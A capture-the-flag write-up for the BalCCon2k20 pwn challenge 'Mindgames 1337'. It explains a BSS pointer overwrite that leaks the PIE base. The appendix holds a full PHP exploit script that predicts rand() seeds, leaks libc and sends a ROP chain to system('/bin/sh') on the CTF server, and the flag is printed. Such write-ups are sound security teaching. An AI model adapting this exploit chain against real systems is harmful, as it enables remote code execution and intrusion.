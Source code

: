 # Mindgames 1337 - BalCCon2k20 CTF (pwn, 457p, 11 solved)
## Introduction

Mindgames 1337 is a pwn task. This is the second challenge of the Mindgames
serie (Mindgames 1336, 1337, 1338). This challenge has PIE.

A Linux ELF file is provided. It is a guessing game. The highest score belongs
to a randomly generated Star Wars character, but can be replaced by the user's
name.

## Reverse engineering

Most of the reverse engineering has been explained for Mindgames 1336's writeup.

The only part left unexplored is the menu that displays high score. It is
relatively simple :
```c
printf("Current highscore:\n%d\t by \t %s\n", highScore, player);
```

The interesting part is the way variables are arranged in the BSS:
```c
/* 0x40C0 */ char name[0x20];
/* 0x40E0 */ unsigned int score;
/* 0x40E8 */ char *player;
```

## Exploitation

The main vulnerability here stays the same : the high score function is still
vulnerable to a stack-base buffer overflow. However, due to the addition of PIE,
it is not possible to leak the libc anymore without leaking the binary's base
address.

As explained in the writeup for Mindgames 1336, this vulnerability also smashes
the global variables in BSS, in particular the score and a pointer to the user's
name.

It is possible to overwrite only the last byte of `player` with `0xE8` so that
it points to itself.

Displaying the highscore will then leak the address of `player` which is
relative to the base address of the program.

The rest of the exploitation is the same as Mindgames 1336's.

**Flag**: `BCTF{and_n0w_y0u_ate_my_PIE?}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const POPRDI = 0x000015d3;
const PUTS   = 0x00001040;
const LSM    = 0x00003fe0;
const NEWHS  = 0x00001349;

const BINSH  = 0x00181519;
const SYSTEM = 0x000449c0;

const HOST = "pwn.institute";
const PORT = 41337;

function menu(Tube $t)
{
	$t->expectLine("What do you want to do?");
	$t->expectLine(" 1) Show Highscore");
	$t->expectLine(" 2) Play the game");
	$t->expectLine(" 3) Exit");
	$t->expect("> ");
}

function hs(Tube $t)
{
	menu($t);
	$t->write("1\n");

	$t->expectLine("Current highscore:");
	$line = $t->readLine();

	list($score, , $player) = explode("\t", $line, 3);
	$score |= 0;
	$player = substr($player, 1);

	return [$score, $player];
}

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);
$date = strftime("%Y-%m-%d %H:%M:%S"); // // it's okay because we use NTP ;-)
$t->expectLine("Hello there! It's $date and the weather looks pretty nice!");

//$t->expect("Hello there! It's ");
//$date = $t->read(strlen("2020-09-25 21:26:35"));
//$t->expectLine(" and the weather looks pretty nice!");

$t->expectLine("");
$t->expectLine("");
$t->expectLine("We should play a game of the mind!");
$t->expect("> ");

$ffi = FFI::load("rand.h");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$time = strtotime($date);
$ffi->srand($time);
$ffi->rand(); // player
$ffi->rand(); // score

printf("[*] Leak PIE\n");
menu($t);
$t->write("2\n");

$t->expectLine("Can you guess my numbers?");
$t->expect("> ");

for($i = 0; $i < 32; $i++) {
	$guess = $ffi->rand();
	$t->write("$guess\n");
}

for($i = 0; $i < 32; $i++) {
	$t->expectLine("You were lucky this time!");
	$t->expect(">");
}

$t->write("-1\n");
$t->expectLine("Game over!");
$t->expectLine("New Highscore! Amazing!");

/* Leak */
$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= "\xe8";

$t->expect("Give me your name: ");
$t->write($payload);

$hs   = hs($t);
$addr = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$base = unpack("Q", $addr)[1] - 0x40e8;

$poprdi = $base + POPRDI;
$lsm    = $base + LSM;
$puts   = $base + PUTS;
$newhs  = $base + NEWHS;

printf("[+] base: %X\n", $base);
printf("\n");

printf("[*] Leak libc\n");
menu($t);
$t->write("2\n");

$t->expectLine("Can you guess my numbers?");
$t->expect("> ");

$t->write("-1\n");
$t->expectLine("Game over!");
$t->expectLine("New Highscore! Amazing!");

/* Leak libc */
$payload  = str_repeat("x", 0x110);
$payload .= pack("Q", 0xdeadbeef); // rbp
$payload .= pack("Q*",
	$poprdi, $lsm,
	$puts,
	$newhs,
); // rip

$t->expect("Give me your name: ");
$t->write($payload);

$leak = $t->readLine();
$leak = str_pad(substr($leak, 0, 8), 8, "\x00");
$addr = unpack("Q", $leak)[1];

$libc  = $addr & ~0xFFF;
$libc -= 0x23000;

printf("[+] libc: %X\n", $libc);
printf("\n");


/* shell */
$payload  = str_repeat("x", 0x110);
$payload .= pack("Q", 0xdeadbeef); // rbp
$payload .= pack("Q*",
	$poprdi, $libc + BINSH,
	$libc + SYSTEM,
	-1
); // rip

$t->expect("Give me your name: ");
$t->write($payload);

printf("[!] shell\n");
$t->pipe();
```
